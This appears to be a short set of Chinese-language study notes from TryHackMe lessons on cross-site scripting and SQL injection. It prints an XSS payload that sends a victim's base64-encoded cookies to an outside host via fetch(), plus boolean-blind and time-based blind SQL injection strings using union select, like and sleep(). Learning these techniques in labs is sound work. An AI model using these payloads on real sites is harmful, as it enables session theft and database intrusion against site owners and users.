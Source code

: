 # Cross Site Scripting

tryhackme讲到的主要的点就是尝试闭合标签或者其他符号绕过，
然后插入js恶意代码，例如：

    <script>fetch('http://hackweb.site/?cookie=' + btoa(document.cookie));</script>

fetch()用于发起http请求

btoa()用于将数据进行base64 encode



# SQL注入

tryhackme这里讲的也比较基础

有意思的点在bool盲注，页面可能只有bool值回显，并没有其他详细信息返回的时候适用

通过like构造:

    website.com/checkuser?username=-1' union select 1,2,3 where database() like 's%';%23

挨个字符挨个字符爆

### 时间盲注

跟布尔盲注非常相似，只是页面完全没有回显，这时候可以使用sleep()，如果sleep成功则可能存在sql注入

    ?referrer=adm1' union select sleep(3),2 where database() like 's%';%23

